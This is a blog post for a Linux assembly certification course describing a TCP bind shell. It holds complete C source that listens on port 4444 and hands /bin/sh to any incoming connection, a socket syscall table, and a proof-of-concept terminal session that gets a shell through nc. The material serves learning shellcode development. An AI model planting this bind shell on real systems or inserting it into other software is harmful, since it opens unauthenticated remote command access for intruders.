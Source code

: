 ```yaml
---
title:  "SLAE x86 Assignment 1: TCP Bind Shellcode"
header:
  teaser: "/assets/images/SHELLCODING32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


![Shellcoding](/assets/images/SHELLCODING32.png)

### TCP BIND SHELLCODE

* Binds to a port
* Executes a shell on an incoming connection
* Port number should be easily configurable

#### CONCEPT 

A TCP bind shellcode will bind a shell to a specific network port on a host listening for an incoming connection via the TCP protocol.

![Bind Shell](/assets/images/bind_shell.png)

Bind shells are easily blocked by firewalls and inbound filtering rules along with NAT preventing unsolicited incoming connections (except for certain ports with known services). This limits the target host's exposure and will prevent a port-binding shellcode from receiving a successful connection.

#### TCP BIND SHELL IN C

The following C skeleton code will be used to demonstrate the TCP bind shell from a high-level language perspective, this will be used as a template for the low-level assembly code to follow.

```c
#include <stdio.h>  
#include <sys/types.h>   
#include <sys/socket.h>  
#include <netinet/in.h>  
  
int host_sockid;    // socket for host  
int client_sockid;  // socket for client  
      
struct sockaddr_in hostaddr;  // sockaddr struct  
  
int main()  
{  
    // Create socket  
    host_sockid = socket(PF_INET, SOCK_STREAM, 0);  
  
    // Initialize sockaddr struct to bind socket using port 4444  
    hostaddr.sin_family = AF_INET;  
    hostaddr.sin_port = htons(4444);  
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);  
  
    // Bind socket to IP/Port in sockaddr struct  
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr));  
      
    // Listen for incoming connections  
    listen(host_sockid, 2);  
  
    // Accept incoming connection using the socket created  
    client_sockid = accept(host_sockid, NULL, NULL);  
  
    // Duplicate file descriptors for STDIN, STDOUT and STDERR  
    dup2(client_sockid, 0);  
    dup2(client_sockid, 1);  
    dup2(client_sockid, 2);  
  
    // Execute /bin/sh  
    execve("/bin/sh", NULL, NULL);  
    close(host_sockid);  
      
    return 0;  
}
```

Note the various syscalls in the C code which will be utilised in the upcoming Assembly code:

* socket
* bind
* listen
* accept
* dup2
* execve

The syscalls are related to the socket network access protocol as referenced below:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat /usr/include/linux/net.h 

#ifndef _LINUX_NET_H
#define _LINUX_NET_H

#include <linux/socket.h>
#include <asm/socket.h>

#define NPROTO		AF_MAX

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
#define SYS_GETSOCKNAME	6		/* sys_getsockname(2)		*/
#define SYS_GETPEERNAME	7		/* sys_getpeername(2)		*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)		*/
#define SYS_SEND	9		/* sys_send(2)			*/
#define SYS_RECV	10		/* sys_recv(2)			*/
#define SYS_SENDTO	11		/* sys_sendto(2)		*/
#define SYS_RECVFROM	12		/* sys_recvfrom(2)		*/
#define SYS_SHUTDOWN	13		/* sys_shutdown(2)		*/
#define SYS_SETSOCKOPT	14		/* sys_setsockopt(2)		*/
#define SYS_GETSOCKOPT	15		/* sys_getsockopt(2)		*/
#define SYS_SENDMSG	16		/* sys_sendmsg(2)		*/
#define SYS_RECVMSG	17		/* sys_recvmsg(2)		*/
#define SYS_ACCEPT4	18		/* sys_accept4(2)		*/
#define SYS_RECVMMSG	19		/* sys_recvmmsg(2)		*/
#define SYS_SENDMMSG	20		/* sys_sendmmsg(2)		*/
```


The C achieves the following objectives:

* Creates a socket
* Binds the socket to a port
* Configures the socket to listen for incoming connections
* Accepts connections on the newly created socket
* Redirects STDIN, STDOUT, and STDERR to the incoming client connection
* Executes a shell

#### POC 

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc shell_bind_tcp.c -o shell_bind_tcp
osboxes@osboxes:~/Downloads/SLAE$ ./shell_bind_tcp 

osboxes@osboxes:~$ netstat -ano | grep 4444
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      off (0.00/0/0)
osboxes@osboxes:~$ nc 127.0.0.1 4444
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

##### SLAE DISCLAIMER ####
---------

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification] [slae-link].

Student ID: SLAE-xxxx

Github: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1
